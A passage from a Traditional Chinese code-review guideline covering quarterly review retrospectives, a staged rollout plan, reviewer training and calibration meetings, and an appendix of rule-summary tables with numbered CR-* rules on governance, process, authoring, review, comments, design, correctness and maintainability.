| `CR-MET-004` | 應該 | 團隊應每季舉行一次審查回顧：檢視指標趨勢、逃逸缺陷的案例、匿名問卷結果，並產出最多三項具體的改善行動與負責人 | 👁 回顧紀錄與改善行動的追蹤 |

```markdown
<!-- ✅ CR-MET-004：季度審查回顧紀錄（2026 Q3） -->
## 指標
- 首次回應 P90：19.4 小時（Q2：31.2 小時）✅ 改善，原因：導入每日審查時段（CR-REV-006）
- PR 大小 P90：412 行（Q2：388 行）⚠️ 略升

## 逃逸缺陷（審查應發現但未發現）
- INC-2210：取消原因未寫入。原因：Mapper 漏欄位，測試只驗證狀態沒有驗證原因（CR-TST-004）

## 匿名問卷（1–5 分，n=9）
- 審查意見讓我感到被尊重：4.4
- 我知道哪些意見是必須處理的：3.6 ← 最低分

## 改善行動
1. 導入 Conventional Comments 標籤（CR-CMT-002），負責人 @chen，10 月底前
2. 檢查清單加入「Mapper 的每個欄位都有測試」，負責人 @amy
3. 超過 400 行的 PR 在站會中討論拆分方式，負責人 全體
```

#### 🔍 22.3 審查與驗證

- **自動檢查：** 改善行動以議題追蹤，下一次回顧時檢視完成狀況。
- **人工審查問題：**
  1. 上一季的改善行動完成了嗎？效果如何？
  2. 逃逸缺陷的根本原因中，有多少是審查可以發現的？
- **AI 常見錯誤：** 以 AI 產生回顧摘要時，AI 常產生大量籠統的改善建議（「加強溝通」、「提升品質意識」），應限制為最多三項、具體且有負責人的行動。

## 23. 培訓與導入

### 23.1 導入路線圖

一次導入本指引的所有規則，團隊會被大量的新流程與工具淹沒。建議分四個階段導入，每個階段結束時以第 22 章的指標確認效果：



| 階段 | 目標 | 主要工作 | 完成條件 |
| --- | --- | --- | --- |
| 1. 基本控制 | 所有變更都經過審查且留下紀錄 | 設定 Ruleset／受保護分支、CODEOWNERS、PR 範本；撰寫程式庫的審查政策（CR-GOV-002） | 1.1、18.2、18.4 的自動檢查全部通過 |
| 2. 自動化 | 人工審查不再處理格式與已知模式 | 品質閘門設為必要檢查（CR-AUTO-001）；pre-commit；PR 衛生檢查（附錄 C.4） | 審查意見中格式類比例低於兩成 |
| 3. 審查品質 | 審查找到真正的問題 | 培訓（23.2）、檢查清單（附錄 B）、Conventional Comments、校準會議（23.3） | 問卷「知道哪些意見必須處理」≥ 4 分 |
| 4. AI 與持續改善 | AI 協助而非取代審查 | 選定 AI 審查工具並撰寫指示（CR-AI-003）；季度回顧（CR-MET-004） | AI 意見採納率穩定；沒有只由機器人核准的合併 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-IMP-001` | 應該 | 導入本指引時應依本節的階段進行，每個階段指定負責人與完成條件；導入計畫與進度應記錄在程式庫或專案管理工具中 | 👁 導入計畫與完成條件的檢查紀錄 |

```markdown
<!-- ✅ CR-IMP-001：導入計畫（以議題追蹤，每個階段一個里程碑） -->
## Milestone：Code Review 指引導入 — 階段 1 基本控制（2026-10-13 ～ 10-24）
- [ ] #1130 組織層級 Ruleset protect-main（負責人 @platform-lee）
- [ ] #1131 各程式庫 CODEOWNERS，含 .github/ 保護（負責人 各團隊技術主管）
- [ ] #1132 PR 範本與 docs/code-review.md（負責人 @chen）
- 完成條件：以 `gh api repos/{owner}/{repo}/rules/branches/main` 檢查 12 個程式庫全部符合 CR-GH-001
```

#### 🔍 23.1 審查與驗證

- **自動檢查：** 每個階段的完成條件都盡量以自動檢查表達（API 查詢、CI 結果）。
- **人工審查問題：** 目前在哪個階段？下一個階段的前提條件都達成了嗎？
- **AI 常見錯誤：** AI 產生的導入計畫常把所有工作排在同一個階段、沒有完成條件，或低估平台設定需要的權限與協調時間。

### 23.2 審查者培訓

v2.0 的三階段培訓（觀察、協助、獨立）保留，並加上明確的學習內容與完成條件：

| 階段 | 時間 | 活動 | 學習內容 | 完成條件 |
| --- | --- | --- | --- | --- |
| 1. 觀察 | 第 1–2 週 | 閱讀過去 3 個月的優良審查案例；旁聽資深成員的同步審查 | 第 1–6 章；團隊的審查政策與 CODEOWNERS | 能說出團隊的核准規則與意見分級 |
| 2. 協助 | 第 3–5 週 | 與 mentor 共同審查 10 個 PR；擔任「學習審查者」（CR-ROLE-008） | 第 7–12 章；附錄 B.2 檢查清單 | mentor 確認意見的分級與說明正確 |
| 3. 獨立 | 第 6–8 週 | 獨立審查低風險 PR；mentor 抽查 | 第 13–19 章（依負責的領域） | 加入 CODEOWNERS 團隊，核准計入必要人數 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-IMP-002` | 應該 | 新成員在核准計入必要人數前，應完成本節的三階段培訓；mentor 應以實際的審查紀錄評估，而不是只看完成時數 | 👁 培訓紀錄；🤖 CODEOWNERS 團隊成員異動紀錄 |

```markdown
<!-- ✅ CR-IMP-002：mentor 的培訓評估紀錄（以實際審查為依據） -->
## 審查者培訓評估：@new-dev（2026-09-01 ～ 10-24）
| 項目 | 依據 | 評估 |
| --- | --- | --- |
| 意見分級正確 | PR #1088、#1095、#1102 的 14 則意見，13 則分級正確 | ✅ |
| 能找出授權問題 | #1102 指出缺少 customerId 條件（CR-SEC-004） | ✅ |
| 能說明理由 | 意見都有說明後果或規則編號 | ✅ |
| 待加強 | 資料庫遷移的鎖（13.3），下一季安排 DBA 走查 | ⏳ |
結論：可加入 @example/order-team（核准計入必要人數），2026-10-27 起生效。核准：@chen
```

#### 🔍 23.2 審查與驗證

- **自動檢查：** CODEOWNERS 團隊的成員異動（GitHub 團隊稽核日誌、GitLab 群組成員稽核事件）與培訓紀錄比對。
- **人工審查問題：** 新成員的核准是否在完成培訓後才計入？培訓評估是否以實際審查為依據？
- **AI 常見錯誤：** 以 AI 產生的「審查練習題」培訓時，題目可能有錯誤或與團隊實際的程式碼無關；練習應優先使用團隊過去真實的 PR（去除敏感資訊後）。

### 23.3 審查校準

即使有同一份指引，不同審查者對「什麼是 blocking」、「多少測試才夠」的判斷仍會漂移。校準會議讓團隊對同一個 PR 各自審查後比較結果，找出判斷不一致的地方。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-IMP-003` | 應該 | 團隊應每季舉行一次審查校準：選一個已合併的真實 PR（或刻意植入問題的練習 PR），成員各自審查後比較意見、分級與核准決定，對不一致的地方取得共識並更新規範 | 👁 校準會議紀錄 |

```markdown
<!-- ✅ CR-IMP-003：校準會議紀錄 -->
## 2026 Q3 審查校準（練習 PR：植入 5 個問題的 OrderRefundService）
| 植入的問題 | 找到的人數（n=6） | 分級一致嗎 |
| --- | --- | --- |
| 退款金額可大於訂單金額（A06） | 6 | ✅ 全部 blocking |
| 交易中呼叫外部服務（CR-COR-012） | 3 | ⚠️ 2 人標為 suggestion |
| 測試只驗證 mock 呼叫（CR-TST-004） | 2 | ⚠️ |
| RestClient 沒有逾時（CR-PRF-004） | 5 | ✅ |
| 日誌記錄完整卡號（CR-SEC-008） | 6 | ✅ |
## 共識
- 交易中呼叫外部服務一律為 blocking（已更新團隊規範第 2.4 節）
- 下一季培訓加強「審查測試的品質」（第 10.2 節）
```

#### 🔍 23.3 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：** 哪些問題最少人找到？是規範不清楚、培訓不足，還是檢查清單遺漏？
- **AI 常見錯誤：** 可以讓 AI 審查工具也參加校準（以同一個練習 PR 執行），比較它與人類的差異，作為調整 AI 審查指示（19.2）的依據；但不應把 AI 的結果當成標準答案。

## 附錄 A 規則總表

本附錄由各章的規則表自動彙整，共 **174** 條規則，可作為程式碼審查與 AI 產出審查的檢核清單。

### A.1 依領域統計

| 前綴 | 領域 | 章 | 規則數 | 必須 | 應該 | 可以 | 不應該 |
| --- | --- | --- | --- | --- | --- | --- | --- |
| `CR-GOV` | 目的、治理與國際標準 | 1 | 8 | 6 | 2 | 0 | 0 |
| `CR-ROLE` | 角色與責任 | 2 | 8 | 3 | 3 | 1 | 1 |
| `CR-PRC` | 審查流程與服務水準 | 3 | 11 | 6 | 5 | 0 | 0 |
| `CR-AUT` | 作者：準備可審查的變更 | 4 | 11 | 5 | 5 | 1 | 0 |
| `CR-REV` | 審查者：如何審查 | 5 | 10 | 4 | 5 | 0 | 1 |
| `CR-CMT` | 審查意見與溝通 | 6 | 7 | 4 | 3 | 0 | 0 |
| `CR-DES` | 設計與架構 | 7 | 7 | 4 | 3 | 0 | 0 |
| `CR-COR` | 功能正確性與錯誤處理 | 8 | 15 | 10 | 2 | 0 | 3 |
| `CR-MNT` | 可讀性與可維護性 | 9 | 8 | 2 | 6 | 0 | 0 |
| `CR-TST` | 測試 | 10 | 8 | 5 | 3 | 0 | 0 |
| `CR-SEC` | 安全 | 11 | 10 | 9 | 1 | 0 | 0 |
| `CR-PRF` | 效能與資源 | 12 | 5 | 4 | 1 | 0 | 0 |
| `CR-DB` | 資料庫與資料遷移 | 13 | 5 | 4 | 1 | 0 | 0 |
| `CR-FE` | 前端、UI 與無障礙 | 14 | 8 | 4 | 4 | 0 | 0 |
| `CR-CFG` | 設定、IaC 與相依套件 | 15 | 7 | 6 | 1 | 0 | 0 |
| `CR-API` | API 相容性與文件 | 16 | 3 | 1 | 2 | 0 | 0 |
| `CR-AUTO` | 自動化與品質閘門 | 17 | 7 | 5 | 1 | 1 | 0 |
| `CR-GH` | GitHub 平台設定 | 18 | 4 | 4 | 0 | 0 | 0 |
| `CR-GL` | GitLab 平台設定 | 18 | 4 | 3 | 1 | 0 | 0 |
| `CR-AI` | AI 輔助審查與審查 AI 產出 | 19 | 9 | 8 | 1 | 0 | 0 |
| `CR-SPC` | 特殊情境 | 20 | 7 | 5 | 2 | 0 | 0 |
| `CR-CUL` | 意見衝突與團隊文化 | 21 | 5 | 2 | 3 | 0 | 0 |
| `CR-MET` | 度量與持續改善 | 22 | 4 | 0 | 3 | 0 | 1 |
| `CR-IMP` | 培訓與導入 | 23 | 3 | 0 | 3 | 0 | 0 |
| **合計** | | | **174** | **104** | **61** | **3** | **6** |

### A.2 驗證方式與範例覆蓋

依各規則表的「驗證方式」欄統計（圖示定義見 [0.3](#03-規範等級與規則格式)）。一條規則可同時有多種驗證方式；「僅人工」表示沒有工具或測試可以替代人工判斷，審查時請特別依照各節「🔍 審查與驗證」的問題確認。

| 前綴 | 規則數 | 🤖 工具檢查 | 🧪 測試或演練 | 👁 僅人工 | 有範例 |
| --- | --- | --- | --- | --- | --- |
| `CR-GOV` | 8 | 6 | 1 | 2 | 8 |
| `CR-ROLE` | 8 | 4 | 1 | 4 | 8 |
| `CR-PRC` | 11 | 9 | 2 | 2 | 11 |
| `CR-AUT` | 11 | 9 | 0 | 2 | 11 |
| `CR-REV` | 10 | 2 | 0 | 8 | 10 |
| `CR-CMT` | 7 | 2 | 0 | 5 | 7 |
| `CR-DES` | 7 | 2 | 2 | 3 | 7 |
| `CR-COR` | 15 | 6 | 9 | 1 | 15 |
| `CR-MNT` | 8 | 6 | 0 | 2 | 8 |
| `CR-TST` | 8 | 5 | 1 | 2 | 8 |
| `CR-SEC` | 10 | 6 | 6 | 1 | 10 |
| `CR-PRF` | 5 | 0 | 4 | 1 | 5 |
| `CR-DB` | 5 | 2 | 2 | 1 | 5 |
| `CR-FE` | 8 | 6 | 2 | 0 | 8 |
| `CR-CFG` | 7 | 6 | 1 | 0 | 7 |
| `CR-API` | 3 | 3 | 0 | 0 | 3 |
| `CR-AUTO` | 7 | 6 | 0 | 1 | 7 |
| `CR-GH` | 4 | 4 | 1 | 0 | 4 |
| `CR-GL` | 4 | 3 | 2 | 1 | 4 |
| `CR-AI` | 9 | 9 | 0 | 0 | 9 |
| `CR-SPC` | 7 | 5 | 1 | 1 | 7 |
| `CR-CUL` | 5 | 0 | 0 | 5 | 5 |
| `CR-MET` | 4 | 2 | 0 | 2 | 4 |
| `CR-IMP` | 3 | 1 | 0 | 2 | 3 |
| **合計** | **174** | **104** | **35** | **46** | **174** |

> 「有範例」指規則編號出現在至少一個範例（程式碼區塊）的 ✅／❌ 標記中，由建置腳本自動檢查。

### A.3 規則清單

| 編號 | 等級 | 規則 | 所在章節 |
| --- | --- | --- | --- |
| `CR-GOV-001` | 必須 | 所有進入受保護分支（`main`、`release/*`、`hotfix/*`）的變更都必須經過 PR／MR，並至少由一位作者以外的人核准；不得直接推送或由作者自行核准 | [1.1](#11-為什麼要做程式碼審查) |
| `CR-GOV-002` | 必須 | 每個程式庫都必須有書面的審查政策（`CONTRIBUTING.md` 或 `docs/code-review.md`），寫明核准人數、必要審查者、回應時限與合併條件，並與平台設定一致 | [1.1](#11-為什麼要做程式碼審查) |
| `CR-GOV-003` | 必須 | 結對程式設計、AI 審查或作者自行測試都不能取代 PR／MR 審查；結對完成的變更仍須由「非結對成員」或結對夥伴在平台上核准，以留下紀錄 | [1.2](#12-審查的類型與選擇) |
| `CR-GOV-004` | 應該 | 依變更風險選擇審查類型：高風險變更（見 3.4）除了 PR 審查外，應再搭配設計審查、同步走查或安全審查，並在 PR 描述記錄已完成的審查 | [1.2](#12-審查的類型與選擇) |
| `CR-GOV-005` | 必須 | 審查紀錄（核准者、時間、意見與處理結果）必須保存在 Git 平台上，並至少保存到該版本停止支援後一年；不得只在通訊軟體或口頭完成審查 | [1.3](#13-國際標準與法規對照) |
| `CR-GOV-006` | 應該 | 每年以本節的對照表檢查一次審查控制是否仍符合適用的標準與法規，並在附錄 F 記錄結果 | [1.3](#13-國際標準與法規對照) |
| `CR-GOV-007` | 必須 | 能以工具判定的規則（格式、命名慣例、未使用的程式碼、已知弱點模式）必須由 CI 自動檢查；人工審查不得以這類問題作為主要內容 | [1.4](#14-審查的範圍與限制) |
| `CR-GOV-008` | 必須 | 審查不能取代測試：審查者核准不代表功能已被驗證，PR 仍必須通過 CI 的自動化測試，行為變更必須附有測試（第 10 章） | [1.4](#14-審查的範圍與限制) |
| `CR-ROLE-001` | 必須 | 作者對變更的正確性負主要責任，不得把責任轉移給審查者或 AI：送審前必須自己讀過整個 diff、在本機或 CI 執行過測試，並能解釋每一行程式碼（包括 AI 產生的部分）的用途 | [2.1](#21-角色定義與責任分工) |
| `CR-ROLE-002` | 必須 | 核准代表審查者看過**全部**變更並願意共同負責；只審查部分檔案時，必須在核准意見中寫明範圍（例如「只審查 db/ 目錄」），且不得因此減少必要的核准人數 | [2.1](#21-角色定義與責任分工) |
| `CR-ROLE-003` | 應該 | 每個 PR 指定一位主要審查者，負責完整審查與最後確認；其他審查者為領域審查者。避免「三個人都被指派、沒有人負責」 | [2.1](#21-角色定義與責任分工) |
| `CR-ROLE-004` | 不應該 | 以職位高低取代審查能力：不應由不熟悉該段程式碼的主管核准，也不應因為作者是資深人員就減少審查 | [2.1](#21-角色定義與責任分工) |
| `CR-ROLE-005` | 必須 | CODEOWNERS 指定的每個團隊至少要有兩位能核准的成員，且團隊必須有程式庫的寫入權限；只有一位成員的團隊會在該成員請假時阻擋所有合併 | [2.2](#22-審查者的資格與指派) |
| `CR-ROLE-006` | 應該 | 團隊內的審查指派採輪值或負載平衡，並排除當週值班、請假的成員；同一位審查者的待審 PR 不應超過 5 個 | [2.2](#22-審查者的資格與指派) |
| `CR-ROLE-007` | 應該 | 安全敏感路徑（身分驗證、授權、加密、秘密、CI 設定、CODEOWNERS 本身）必須由資安擁護者或指定的安全審查者核准 | [2.2](#22-審查者的資格與指派) |
| `CR-ROLE-008` | 可以 | 新進人員可以擔任「學習審查者」：參與審查並留下意見，但在完成培訓（23.2）前其核准不計入必要人數 | [2.2](#22-審查者的資格與指派) |
| `CR-PRC-001` | 必須 | 審查有明確的進入與退出條件。**進入**：CI 通過、描述完整、作者已自我審查。**退出（可合併）**：達到核准人數、所有阻擋性討論已解決、最新提交的 CI 全部通過、沒有未處理的「Request changes」 | [3.1](#31-審查生命週期) |
| `CR-PRC-002` | 必須 | 審查者必須在 1 個工作天內對審查請求做出第一次回應：完成審查、留下部分意見，或說明預計何時能完成；無法在期限內審查時必須主動請其他人代理 | [3.2](#32-回應時限與服務水準) |
| `CR-PRC-003` | 應該 | 超過 10 個工作天沒有任何更新的 PR／MR 應由作者關閉或拆分；長期未合併的分支會累積衝突並失去審查價值 | [3.2](#32-回應時限與服務水準) |
| `CR-PRC-005` | 必須 | 核准後的新提交必須使核准失效，或要求最後推送者以外的人重新核准；不得出現「核准第 1 版、合併第 3 版」的情況 | [3.3](#33-審查輪次與核准失效) |
| `CR-PRC-006` | 應該 | 審查往返超過三輪仍未收斂時，應改為同步討論（3.5），並在 PR 記錄結論 | [3.3](#33-審查輪次與核准失效) |
| `CR-PRC-004` | 必須 | 高風險變更必須至少有兩位作者以外的人核准，其中至少一位是該路徑的 CODEOWNER 或領域專家；高風險路徑應以 CODEOWNERS 或核准規則強制執行，而不是只靠標籤 | [3.4](#34-風險分級與核准人數) |
| `CR-PRC-007` | 應該 | 每個 PR／MR 都應標記風險等級（`risk:low`／`risk:medium`／`risk:high`），並由審查者確認等級是否正確；作者低估等級時審查者必須改正 | [3.4](#34-風險分級與核准人數) |
| `CR-PRC-008` | 必須 | 同步討論的結論必須寫回 PR／MR，包含決定、理由與後續動作；未記錄的口頭結論不算數 | [3.5](#35-同步審查走查與正式檢查) |
| `CR-PRC-009` | 必須 | 合併前，CI 必須在「與目標分支最新狀態合併後」的程式碼上通過；多人頻繁合併的程式庫應使用 GitHub merge queue 或 GitLab merge trains，或要求分支在合併前更新到最新 | [3.6](#36-合併與合併後) |
| `CR-PRC-010` | 應該 | 程式庫應統一合併方式（建議 squash merge，保留一個以 PR 標題為訊息的提交），並在審查政策中寫明 | [3.6](#36-合併與合併後) |
| `CR-PRC-011` | 應該 | 合併者應在合併後觀察部署與監控至少到下一個部署環境驗證完成；發現問題時優先回滾（revert），再另開 PR 修正 | [3.6](#36-合併與合併後) |
| `CR-AUT-001` | 應該 | 每個 PR 的變更行數（新增＋刪除，不含自動產生的檔案、鎖定檔與測試資料）應不超過 400 行；超過 1,000 行時必須在描述中說明無法拆分的理由，並建議改用堆疊 PR（4.5） | [4.1](#41-小而聚焦的變更) |
| `CR-AUT-002` | 必須 | 每個 PR 只有一個目的；不得把重構、格式化、無關的錯誤修正與新功能混在同一個 PR | [4.1](#41-小而聚焦的變更) |
| `CR-AUT-003` | 必須 | 程式庫必須提供 PR／MR 範本（GitHub：`.github/pull_request_template.md`；GitLab：`.gitlab/merge_request_templates/Default.md`），作者必須填寫目的、如何驗證、風險與影響三個段落，不得保留範本的提示文字 | [4.2](#42-撰寫-prmr-描述) |
| `CR-AUT-004` | 應該 | PR 描述應連結議題（issue）或需求編號；UI 變更應附變更前後的截圖或錄影 | [4.2](#42-撰寫-prmr-描述) |
| `CR-AUT-005` | 應該 | PR 標題與提交訊息應符合 Conventional Commits 1.0.0；破壞性變更必須以 `!` 或 `BREAKING CHANGE:` 頁尾標示 | [4.3](#43-提交訊息) |
| `CR-AUT-006` | 必須 | 送審前作者必須在平台上（而不是只在 IDE 中）完整讀過一次 diff，並依附錄 B.1 的自我檢查清單逐項確認；可以在自己的 PR 上留言標註需要審查者注意的地方 | [4.4](#44-送審前的自我審查) |
| `CR-AUT-007` | 必須 | 不得提交除錯程式碼、被註解掉的程式碼、個人設定檔、秘密與大型二進位檔；應以 pre-commit 掛鉤（hook）在提交前自動檢查 | [4.4](#44-送審前的自我審查) |
| `CR-AUT-008` | 應該 | 尚未完成、CI 未通過或只想徵求方向意見的變更，應以草稿 PR／MR 建立，並在描述中寫明希望得到的回饋類型 | [4.5](#45-草稿-pr-與堆疊-pr) |
| `CR-AUT-009` | 可以 | 超過 400 行且無法以功能切分的工作，可以使用堆疊 PR；每一層必須能獨立通過 CI，且描述中說明它在整個堆疊中的位置 | [4.5](#45-草稿-pr-與堆疊-pr) |
| `CR-AUT-010` | 必須 | 作者必須回應每一則阻擋性意見（已修正、說明不同意的理由，或經審查者同意後延後並附議題連結）；不得在未回應的情況下自行把討論標為已解決 | [4.6](#46-回應審查意見) |
| `CR-AUT-011` | 應該 | 審查進行中應以新增提交（必要時使用 `git commit --fixup`）回應意見，而不是改寫歷史後強制推送；需要 rebase 時應在 PR 留言告知審查者 | [4.6](#46-回應審查意見) |
| `CR-REV-001` | 必須 | 審查者必須先確認變更的目的，並判斷實作是否符合需求；描述不足以理解目的時，第一則意見應是要求作者補充，而不是開始逐行審查 | [5.1](#51-審查前的準備) |
| `CR-REV-002` | 應該 | 審查者應先看整體與主要部分；發現會導致大幅重寫的設計問題時，應立即留下意見並暫停審查其餘部分，不必等全部看完 | [5.2](#52-閱讀順序) |
| `CR-REV-003` | 必須 | 審查者必須閱讀所有人工撰寫（包括 AI 協助產生後由人提交）的程式碼；只有確認為工具自動產生且未經手動修改的檔案（例如 OpenAPI Generator 輸出、鎖定檔）可以只確認產生方式與版本 | [5.3](#53-檢查什麼依重要性排序) |
| `CR-REV-004` | 應該 | 審查者應依本節的順序分配注意力；同一個 PR 中，若設計、正確性、安全與測試都沒有任何意見，卻有多則風格意見，應重新檢視是否遺漏了重要面向 | [5.3](#53-檢查什麼依重要性排序) |
| `CR-REV-005` | 應該 | 單次審查不應超過 60–90 分鐘、400 行；更大的變更應分段審查並在每段結束時留下意見，或要求作者拆分 | [5.4](#54-審查的節奏與時間) |
| `CR-REV-006` | 應該 | 團隊應在每天安排固定的審查時段（例如上午與午後各一次），讓審查不打斷深度工作，也不會被無限延後 | [5.4](#54-審查的節奏與時間) |
| `CR-REV-007` | 應該 | 高風險變更（3.4）與 UI 變更，審查者應在本機或預覽環境執行並驗證主要情境，並在核准意見中說明驗證了什麼 | [5.5](#55-在本機驗證) |
| `CR-REV-008` | 必須 | 只要變更改善了整體程式碼健康度、沒有阻擋性問題，審查者就應核准；不得因個人偏好、不影響正確性的風格差異或「如果是我會這樣寫」而拒絕核准 | [5.6](#56-核准標準) |
| `CR-REV-009` | 必須 | 下列情況必須要求修改，不得核准：違反本指引或其他指引的「必須」規則；功能不符合需求；缺少行為變更的測試；引入安全弱點；降低整體程式碼健康度 | [5.6](#56-核准標準) |
| `CR-REV-010` | 不應該 | 不應以「之後再改」為由核准會降低程式碼健康度的變更；若接受延後處理，必須有議題連結與負責人 | [5.6](#56-核准標準) |
| `CR-CMT-001` | 必須 | 每則審查意見都必須能讓作者判斷是否阻擋合併：以 Conventional Comments 的標籤與裝飾（或團隊約定的等效前綴）標示 | [6.1](#61-意見分級讓作者知道哪些必須處理) |
| `CR-CMT-002` | 應該 | 團隊應採用 Conventional Comments 作為意見格式，並在審查政策中列出使用的標籤；GitHub 的「Request changes」與阻擋性意見應一致（有 `(blocking)` 意見時才使用 Request changes） | [6.1](#61-意見分級讓作者知道哪些必須處理) |
| `CR-CMT-003` | 必須 | 阻擋性意見必須說明「為什麼是問題」：具體的後果、違反的規則編號或需求；不得只寫「這樣不對」「請修改」 | [6.2](#62-好意見的結構) |
| `CR-CMT-004` | 應該 | 修改範圍小且明確時，應使用平台的建議修改功能（GitHub 與 GitLab 的 `suggestion` 區塊），讓作者能直接套用 | [6.2](#62-好意見的結構) |
| `CR-CMT-006` | 必須 | 審查意見只能針對程式碼與設計，不得針對作者個人；不得使用貶抑、諷刺或羞辱的字眼。違反時由技術主管依 21.2 處理 | [6.3](#63-語氣與溝通) |
| `CR-CMT-007` | 應該 | 審查者在每次完整審查中，應至少留下一則對做得好的地方的具體肯定（`praise`），特別是對新進成員 | [6.3](#63-語氣與溝通) |
| `CR-CMT-005` | 必須 | 審查中發現但不在本 PR 修正的問題，必須建立議題（issue）並在原意見中附上連結；安全相關的問題必須標記安全標籤並依弱點處理時限追蹤，不得只留在已關閉的 PR 中 | [6.4](#64-意見的記錄與追蹤) |
| `CR-DES-001` | 必須 | 新增模組或服務、改變跨服務介面、引入新的框架或基礎設施、重大的資料模型變更，必須先完成設計審查（ADR 或設計文件獲核准），PR 描述中必須連結該文件 | [7.1](#71-設計審查與架構決策紀錄) |
| `CR-DES-002` | 必須 | 審查者必須確認實作符合已核准的設計；實作與設計不一致時，應先更新設計文件並重新取得同意，或修改實作 | [7.1](#71-設計審查與架構決策紀錄) |
| `CR-DES-003` | 必須 | 分層與模組依賴的規則必須以架構測試（例如 ArchUnit）表達並在 CI 執行；審查者必須確認 PR 沒有放寬或刪除架構測試，除非有對應的 ADR | [7.2](#72-職責與模組邊界) |
| `CR-DES-004` | 必須 | 每個類別與方法只有一個明確的職責；Controller 只處理 HTTP 轉換，業務規則放在 Service 或領域物件，資料存取只透過 Repository | [7.2](#72-職責與模組邊界) |
| `CR-DES-005` | 應該 | 只為目前的需求設計；沒有第二個實作的介面、沒有使用者的設定選項、「預留給未來」的參數，應在審查時要求移除 | [7.3](#73-簡單與適度避免過度設計與重複造輪子) |
| `CR-DES-006` | 應該 | 優先使用專案既有的工具類別、框架與標準函式庫；重新實作既有功能（日期處理、重試、驗證、JSON 處理）時必須說明理由 | [7.3](#73-簡單與適度避免過度設計與重複造輪子) |
| `CR-DES-007` | 應該 | 新程式碼應遵循同一模組既有的慣例（錯誤處理、DTO 轉換、日誌、交易邊界）；要引入新的做法時，應先提出並取得團隊同意，並規劃既有程式碼的遷移 | [7.4](#74-一致性遵循既有的慣例) |
| `CR-COR-001` | 必須 | 審查者必須依本節的邊界表檢查每個新增或修改的輸入與狀態轉換，並確認每個邊界都有處理（拒絕或正確計算）與對應的測試 | [8.1](#81-需求符合度與邊界條件) |
| `CR-COR-002` | 必須 | 不合法的輸入必須被明確拒絕並回報錯誤，不得悄悄「修正」成其他值（例如把負的頁碼改成 0、把超過上限的筆數改成預設值），除非需求明確要求 | [8.1](#81-需求符合度與邊界條件) |
| `CR-COR-003` | 必須 | 狀態轉換必須集中在領域物件中檢查，並涵蓋所有狀態；以 `switch` 處理列舉時應使用 switch 運算式或模式比對，讓編譯器在新增列舉值時提醒遺漏 | [8.1](#81-需求符合度與邊界條件) |
| `CR-COR-004` | 必須 | 外部輸入的 DTO 必須以 Bean Validation 宣告約束（必填、長度、範圍、格式），Controller 參數必須加上 `@Valid`／`@Validated`；字串欄位都要有長度上限 | [8.2](#82-輸入契約) |
| `CR-COR-005` | 必須 | 不得吞掉例外：`catch` 區塊必須重新拋出、轉換為有意義的例外、或完整處理並記錄；不得留下空的 `catch`，也不得只印出例外後繼續執行 | [8.3](#83-錯誤處理) |
| `CR-COR-006` | 不應該 | 不應在業務程式碼中捕捉 `Exception`、`RuntimeException` 或 `Throwable`；應只捕捉能處理的特定例外，其餘交給全域例外處理器 | [8.3](#83-錯誤處理) |
| `CR-COR-007` | 應該 | API 的錯誤回應應由全域例外處理器統一轉換（建議使用 RFC 9457 Problem Details），回應中不得包含堆疊追蹤、SQL 或內部類別名稱 | [8.3](#83-錯誤處理) |
| `CR-COR-008` | 必須 | 可能找不到結果的查詢方法必須回傳 `Optional`（或空集合），不得回傳 `null`；呼叫端不得直接呼叫 `Optional.get()`，應使用 `orElseThrow` 並提供有意義的例外 | [8.4](#84-空值與-optional) |
| `CR-COR-009` | 不應該 | 不應以「回傳預設值」掩蓋不應該發生的空值（例如姓名為空時回傳 `"UNKNOWN"`）；資料不應為空時，應在建立時檢查並拒絕 | [8.4](#84-空值與-optional) |
| `CR-COR-010` | 必須 | 可能被同時修改的實體必須有併發控制（JPA `@Version` 樂觀鎖，或明確的悲觀鎖），並處理衝突（`OptimisticLockingFailureException` 轉為 409 或重試） | [8.5](#85-併發與交易) |
| `CR-COR-011` | 必須 | 交易邊界放在 Service 的公開方法；不得依賴同一類別內部呼叫（self-invocation）觸發 `@Transactional`，也不得在 `private` 方法上標註 `@Transactional`（代理不會生效） | [8.5](#85-併發與交易) |
| `CR-COR-012` | 不應該 | 不應在資料庫交易中同步呼叫外部服務（HTTP、訊息佇列的同步確認）；應在交易提交後再呼叫，或使用 outbox 模式 | [8.5](#85-併發與交易) |
| `CR-COR-013` | 必須 | 實作 `AutoCloseable` 的資源必須以 `try-with-resources` 管理（由框架管理生命週期的除外）；讀寫文字檔必須明確指定編碼 | [8.6](#86-資源管理) |
| `CR-COR-014` | 必須 | 金額必須使用 `BigDecimal`（或以最小貨幣單位的 `long`），不得使用 `double`／`float`；`BigDecimal` 必須以字串或 `valueOf` 建立，除法必須指定 `RoundingMode` | [8.7](#87-金額時間與數值) |
| `CR-COR-015` | 應該 | 需要「現在時間」的程式碼應注入 `java.time.Clock`，不直接呼叫 `Instant.now()`／`LocalDate.now()`，讓測試能控制時間；日期計算必須明確指定時區 | [8.7](#87-金額時間與數值) |
| `CR-MNT-001` | 必須 | 類別、方法、變數的名稱必須表達用途與意圖，遵循語言慣例（Java：類別 `PascalCase`、方法與變數 `camelCase`、常數 `UPPER_SNAKE_CASE`）；不得使用無意義的縮寫或單一字母（迴圈索引除外） | [9.1](#91-命名) |
| `CR-MNT-002` | 應該 | 審查者看不懂名稱的意思時，應要求作者改名，而不是要求加註解；布林值以 `is`／`has`／`can` 開頭，方法名稱以動詞開頭 | [9.1](#91-命名) |
| `CR-MNT-003` | 應該 | 方法的認知複雜度應不超過 15、巢狀不超過 3 層；超過時應以提早返回（guard clause）、抽出方法或多型降低複雜度 | [9.2](#92-複雜度) |
| `CR-MNT-004` | 應該 | 方法應只做一件事、維持在同一個抽象層次；超過 40 行的方法審查時應特別確認是否能拆分 | [9.2](#92-複雜度) |
| `CR-MNT-005` | 應該 | 新增的程式碼不應與既有程式碼有大段重複（連續 100 個以上 token 相同）；因為同一業務規則而重複的程式碼必須抽出共用 | [9.3](#93-重複程式碼) |
| `CR-MNT-006` | 應該 | 註解應說明為什麼（業務規則、外部限制、非直覺的選擇），而不是逐行翻譯程式碼；公開 API（`public` 類別與方法）應有 Javadoc 說明用途、參數限制與例外 | [9.4](#94-註解與文件) |
| `CR-MNT-007` | 必須 | 不得提交被註解掉的程式碼；`TODO`／`FIXME` 必須附上議題編號（例如 `TODO(#975)`） | [9.4](#94-註解與文件) |
